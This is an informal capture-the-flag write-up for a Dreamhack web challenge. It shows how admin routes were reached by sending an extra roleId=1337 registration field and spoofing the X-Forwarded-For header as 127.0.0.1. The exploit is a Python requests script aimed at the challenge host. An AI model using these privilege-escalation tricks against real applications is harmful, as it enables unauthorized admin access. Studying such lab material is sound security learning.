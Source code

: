 ```
         if (value != null && !value.isEmpty()) {
            String[] parts = value.split("\\s*,\\s*");
            return parts[0];
         }
      }

      return request.getRemoteAddr();
   }
}
```

As you can see in the image above. The admin's user have roleId=1337 and own ip
=127.0.0.1, i guess that cause i saw on account.json and when i sign up with roleId=1337 i cant go to **/admin** url . I cant reverse cookies. Though i sign up with ip field is still cant access. Hmm so i guess we need to append X-Forwarded-For: 127.0.0.1. And i this can tamper the user'ip and also http.getIp (i make this write up in hurry so maybe i call some names wrong, plz forgive me).

Bonus: if you feel confused, look at the image source code, we need 3 conditions to access admin routes, but in somehow we dont really need to create an account with ip field, still get the flag (i said that cause i have experimented a bit)

```
1. First: roleid = 1337 can be bypassed by adding another field during registration
2. Second: Use header "x-forwarded-for": "127.0.0.1" to bypass this check
```

```
import requests


# Base URL and headers
BASE_URL = "http://host3.dreamhack.games:11224"
headers = {"X-Forwarded-For": "127.0.0.1"}

# Data for registration and login
register_data = {
    "username": "test9",
    "password": "trypass123",
    "email": "test@test.ca",
    "intro": "123",
    "roleId": "1337",
}

login_data = {
    "username": "test9",
    "password": "trypass123"
}

# Initialize a session
session = requests.Session()

# Step 1: Register a new user
res1 = session.post(BASE_URL + '/signup_action.do', headers=headers, data=register_data)
print("[+] Registration Response:")
print(res1.text)

# Step 2: Log in with the registered user
res2 = session.post(BASE_URL + '/signin_action.do', headers=headers, data=login_data)
print("[+] Login Response:")
print(res2.text)

# Step 3: Attempt to access admin data
res3 = session.get(BASE_URL + '/admin/viewUser_action.do?username=admin', headers=headers)
print("[+] Admin Access Response:")

```